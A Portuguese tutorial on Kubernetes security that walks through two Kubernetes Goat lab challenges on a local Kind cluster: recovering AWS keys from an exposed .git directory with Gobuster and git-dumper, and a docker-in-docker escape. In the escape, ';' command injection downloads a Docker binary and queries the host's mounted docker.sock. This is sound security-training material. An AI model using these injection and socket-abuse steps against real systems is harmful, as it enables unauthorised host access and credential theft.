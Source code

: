 # Segurança em kubernetes

Se tratando de DevOps, Docker e Kubernetes se transformaram em ferramentas essenciais para a agilidade e escalabilidade na criação e implementação de aplicações. No entanto, essa flexibilidade vem com um preço: proteção. Pessoas má-intencionadas podem explorar facilmente ambientes mal configurados ou desprotegidos, causando violações de dados, interrupções de serviço e até mesmo perdas financeiras.

É essencial possuir um amplo entendimento das vulnerabilidades e métodos de ataque comuns para assegurar a segurança desses ambientes. O [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat) é uma ferramenta inovadora que simula um ambiente de cluster Kubernetes "vulnerável por design", com vários desafios que permitem a prática e aprendizado sobre segurança.

Neste artigo, vamos explorar a segurança do Docker e Kubernetes usando o Kubernetes Goat como nosso guia. Vamos examinar as vulnerabilidades e ataques mais importantes que podem impactar seus ambientes, e mostrar como o Kubernetes Goat pode ajudá-lo a identificá-los e lidar com eles de forma eficaz.


Setup inicial: 
Inicialmente clonamos o Kubernetes Goat em seu [git oficial](https://github.com/madhuakula/kubernetes-goat).
``` bash
git clone https://github.com/madhuakula/kubernetes-goat
cd kubernetes-goat
```

Para rodar essa ferramenta, precisaremos de um cluster Kubernetes ativo e operacional, lembrando que, de forma alguma, poderemos utilizar um cluster de produção para esses testes. Irei criar um cluster local utilizando o [Kind](https://kind.sigs.k8s.io/). Temos um script pronto para a instalação dentro de `./platforms/kind-setup`, rodaremos com o comando:
```bash
bash setup-kind-cluster-and-goat.sh
```

Assim que o cluster for criado iremos para o diretório raiz do Kubernetes Goat e rodamos o script para a instalação:
``` bash
bash setup-kubernetes-goat.sh
```

Após alguns minutos, damos o comando `kubectl get pods`, com todos os pods no ar, rodaremos um comando para acessar o ambiente, expondo os serviços:
``` bash
bash access-kubernetes-goat.sh
```

Acessando `http://127.0.0.1:1234` podemos ver a tela inicial da ferramenta com os desafios.

![tela inicial](images/tela-inicial.png)

## Primeiro desafio:

**"Sensitive keys in codebases"**

O primeiro desafio fala sobre códigos sensíveis em repositórios git. Os desenvolvedores correm o risco de commitar informações sensíveis em seus repositórios git, à medida que avançamos em direção a sistemas CI/CD e GitOps, tendemos a esquecer a identificação de informações confidenciais no código e seus commits, vamos ver se encontramos algo aqui. Esse cenário se encontra em `http://127.0.0.1:1230/` e o desafio é encontrar dados sensíveis.

![primeiro-desafio](images/primeiro-desafio.png)

Ao acessar essa página, podemos utilizar uma ferramenta chamada [Gobuster](https://github.com/OJ/gobuster) para encontrar os diretórios contidos nessa url, essa ferramenta varre a url desejada procurando diretórios e arquivos em uma url, para isso, também será necessário uma `wordlist`, que indica para a ferramenta o que ele deverá procurar, estou utilizando [essa](https://github.com/danielmiessler/SecLists).

Após rodar o comando `gobuster -u http://127.0.0.1:1230 -w common.txt` observamos que existe um diretório .git, utilizando a ferramenta [git-dumper](https://github.com/arthaud/git-dumper) podemos clonar esse repositório:

![gbuster](images/gbuster.png)

```bash
git-dumper http://127.0.0.1:1230/.git primeiro-desafio-git
```

ao entrarmos no diretório e procurar os commits com o comando `git log` conseguimos ver todo os logs de commits, após analizar com cuidado, observamos que o commit d7c173ad183c574109cd5c4c648ffe551755b576 adicionou variáveis de ambiente, acessamos esse commit com o comando `git checkout d7c173ad183c574109cd5c4c648ffe551755b576`.

![commit](images/commit.png)

Damos o comando `ls -la`para ver os arquivos e achamos um arquivo .env com dados sensíveis, como "aws_access_key_id", e "aws_secret_access_key"

![env](images/env.png)


## Segundo desafio:
**"DIND (docker-in-docker) exploitation"**

A maior parte dos sistemas CI/CD e de pipeline que utilizam o docker e cria contâiners de forma dinâmica, utilizam algo chamado de [DIND](https://medium.com/@gopesh3652/running-docker-in-docker-dind-a-comprehensive-guide-1fe2e328020) - (docker-in-docker). Nesse cenário, iremos explorá-lo para tentar ganhar acesso ao sistema host.

Iremos acessar o endpoint `http://127.0.0.1:1231/

![segundo-desafio](images/segundo-desafio.png)

É dada uma aplicação simples, onde poderemos pingar qualquer endereço, porém descobrimos que ela tem uma vulnerabilidade, onde podemos injetar códigos maliciosos utilizando ";" para passarmos múltiplos inputs, como o exemplo:

![multiplos-inputs](images/multiplos-inputs.png)

Conseguimos ver o output do comando `whoami`, agora poderemos analisar todo o sistema e encontrar possíveis brechas e informações.

Através do comando `mount` conseguimos ver que /custom/docker/docker.sock montado, assumindo que ele está montado no host, precisamos conversar com ele para comunicarmos com o socket UNIX

![mount](images/mount.png)

Existem diversas maneiras para isso, desde utilizar o binário oficial do docker, até mesmo utilizando o comando `curl`, utilizaremos a primeira opção. 

Para saber qual binário precisaremos instalar, rodamos o comando `uname -a` para ver a arquitetura e sistema operacional

![uname](images/uname.png)

Após saber que ele é um sistema linux x86_64, conseguimos baixar o binário correto:

```bash
; wget https://download.docker.com/linux/static/stable/x86_64/docker-26.1.2.tgz -O /tmp/docker-26-1-2.tgz
```
![wget](images/wget.png)

Extraímos o binário

``` bash
; tar -xvzf /tmp/docker-26-1-2.tgz -C /tmp/
```

![tar](images/tar.png)

Agora, com o binário extraído podemos ter acesso ao host rodando o comando do docker, passando o socket unix docker.sock como argumento

```bash
; /tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![list](images/list.png)

Só estamos listando os containers, porém, podemos explorar esse comando para ganhar mais acessos e explorar o sistema da forma desejada.

